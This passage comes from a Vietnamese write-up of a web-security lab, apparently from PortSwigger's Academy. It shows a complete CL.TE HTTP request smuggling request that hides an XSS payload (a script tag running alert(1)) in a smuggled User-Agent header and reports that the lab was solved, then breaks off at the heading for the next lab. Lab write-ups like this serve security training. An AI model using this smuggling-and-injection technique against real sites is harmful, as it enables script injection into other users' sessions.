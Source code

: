 >Và không có bất kì 1 cơ chế validate nào cho giá trị này! Ta có thể thay đổi giá trị này thành XSS payload:
>![image](https://hackmd.io/_uploads/HyshcaX_A.png)

>Kiểm tra và thấy lab này thuộc dạng `CL.TE`:
>![image](https://hackmd.io/_uploads/ryjf9aXdR.png)

>Từ đó, xây dựng payload để trigger XSS:
```
POST / HTTP/1.1
Host: 0aed008404a116dd8184162200b000b7.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 148
Transfer-Encoding: chunked

0

GET /post?postId=8 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

a


```


>Trigger alert thành công!
>![image](https://hackmd.io/_uploads/Sy7FipmuR.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/rkJqspXu0.png)

### **11. Lab: Response queue poisoning via H2.TE request smuggling**
![image](https://hackmd.io/_uploads/SkKPZfI_C.png)
